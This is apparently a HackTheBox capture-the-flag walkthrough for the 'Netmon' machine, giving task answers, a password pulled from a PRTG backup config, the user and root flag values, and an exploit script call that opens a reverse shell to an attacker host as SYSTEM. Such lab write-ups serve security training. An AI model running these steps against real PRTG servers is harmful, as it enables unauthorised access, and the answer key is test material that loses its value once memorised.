









# HackTheBox Walkthrough - Machine: Netmon

**Target IP**: 10.129.197.170  
**Difficulty**: Easy/Medium  
**Objective**: Exploit default credentials and backup config to gain access to the PRTG web application and escalate to SYSTEM privileges.

---

## 🧭 Enumeration & Exploitation

### 🔍 Task 1: What is the name of the application running on port 80?  
**Answer**: `PRTG Network Monitor`  
> Identified via Nmap and website banner  


---

### 🔍 Task 2: What service is running on TCP port 21?  
**Answer**: `FTP`  
> Anonymous FTP login allowed  


---

## 🧑‍💻 Submit User Flag  
**Flag Path**: `/Users/Public/Desktop/user.txt`  


**Answer**: `6471d785b2b4095cac5e40105591ce41`

---

### 📁 Task 4: What is the full path of the folder where PRTG Network Monitor saves its configuration files by default?  


**Answer**: `C:\ProgramData\Paessler\PRTG Network Monitor`  
> From official documentation and online sources

---

### 🗃️ Task 5: What is the name of the backup config file?  


**Answer**: `PRTG Configuration.old.bak`  
> Located inside configuration directory

---

### 🔐 Task 6: What was the prtgadmin user's password according to that file?  


**Answer**: `PrTg@dmin2018`  
> Extracted using:
```bash
grep -A 10 'prt' PRTG\ Configuration.old.bak
```

---

### 🔐 Task 7: What is the prtgadmin user's password on the website now?  
**Answer**: `PrTg@dmin2019`  
> Year incremented → commonly updated default credentials

---

### ℹ️ Task 8: What version of PRTG is installed?  


**Answer**: `18.1.37.13946`  
> Found after login as prtgadmin → under Update section

---

### 👤 Task 9: Which user is this software running as by default?  


**Answer**: `system`  
> Verified using exploit script with reverse shell and `whoami` command:
```bash
python exploit.py -i 10.129.197.170 -p 80 --lhost 10.10.14.99 --lport 9999 --user prtgadmin --password PrTg@dmin2019
whoami
nt authority\system
```

---

## 👑 Submit Root Flag  
**Flag Path**: `C:\Users\Administrator\Desktop\root.txt`  


**Answer**: `df57e711fe414afc1356baaf35e33be3`

---
